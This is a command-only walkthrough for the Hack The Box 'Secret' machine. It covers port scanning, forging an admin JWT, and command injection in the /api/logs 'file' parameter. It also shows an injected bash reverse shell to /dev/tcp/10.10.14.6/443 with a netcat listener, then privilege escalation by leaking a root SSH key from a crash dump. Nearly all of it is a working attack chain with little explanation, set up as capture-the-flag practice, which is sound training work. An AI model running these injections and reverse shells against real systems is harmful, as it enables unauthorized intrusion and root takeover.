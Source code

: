 # HTB: Secret — Command Walkthrough

## 📌 Box Info
- **Name:** Secret
- **IP:** 10.10.11.120
- **OS:** Linux
- **Difficulty:** Easy
- **Author:** z9fr

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.120
nmap -p 22,80,3000 -sCV -oA scans/nmap-tcpscripts 10.10.11.120
```
```bash
curl http://10.10.11.120
curl http://10.10.11.120/download/files.zip
```

## 🕵️ JWT Registration & Login
```bash
curl -d '{"name":"0xdf0xdf","email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/register -H 'Content-Type: Application/json'
```
```bash
curl -d '{"email":"dfdfdfdf@secret.com","password":"password"}' -X POST http://10.10.11.120/api/user/login -H 'Content-Type: Application/json'
```

## 📁 Directory Discovery
```bash
feroxbuster -u http://10.10.11.120
```

## 🔐 JWT Analysis
```python
import jwt
token = '...'
secret = '...'
jwt.decode(token, secret)
```

## 🧪 JWT Forging
```python
j = jwt.decode(token, secret)
j['name'] = 'theadmin'
jwt.encode(j, secret)
```

## 🚨 Command Injection Test
```bash
curl -s 'http://10.10.11.120/api/logs?file=;id' -H "auth-token: <ADMIN_JWT_TOKEN>" | jq -r .
```

## ⚙️ Gaining Reverse Shell
```bash
curl -s -G 'http://10.10.11.120/api/logs' \
--data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" \
-H "auth-token: <ADMIN_JWT_TOKEN>" | jq -r .
```
```bash
nc -lnvp 443
```

## 🔼 Shell Upgrade
```bash
script /dev/null -c bash
[CTRL+Z]
stty raw -echo; fg
reset
screen
```

## 📄 Privilege Escalation via SUID FD Leak
```bash
./count
[CTRL+Z]
ls -l /proc/$(pidof count)/fd
```

## 💥 Exploiting Crash Dump
```bash
./count
[CTRL+Z]
kill -SIGSEGV $(pidof count)
apport-unpack _opt_count.1000.crash /tmp/0xdf
strings -n 30 /tmp/0xdf/CoreDump | less
```

## 🔑 SSH as Root
```bash
ssh -i root_id_rsa root@10.10.11.120
```